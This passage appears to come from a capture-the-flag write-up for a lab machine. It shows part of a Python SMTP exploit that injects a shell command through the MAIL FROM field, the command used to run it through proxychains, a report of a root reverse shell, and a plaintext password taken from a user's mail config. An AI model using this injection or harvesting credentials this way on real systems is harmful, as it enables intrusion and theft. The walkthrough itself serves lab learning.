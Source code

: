 ```python
    break
if s is None:
    print('could not open socket')
    sys.exit(1)
with s:
    data = s.recv(1024)
    print('Received', repr(data))
    time.sleep(1)
    print('sending')
    s.send(b"helo test.com\r\n")
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(b"MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>\r\n")
    time.sleep(1)
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(b"RCPT TO:<j.nakazawa@realcorp.htb>\r\n")
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(b"DATA\r\n")
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(payload)
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(b"QUIT\r\n")
    data = s.recv(1024)
    print('Received', repr(data))
print("done")
s.close()
```

after that I ran the exploit

```
proxychains python3 smtp_exploit.py 10.241.251.113
```

And we got the reverse shell as root

## User

Reading a file in /home/j.nakazawa/.msmtprc

and found some creds

```
# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp

```
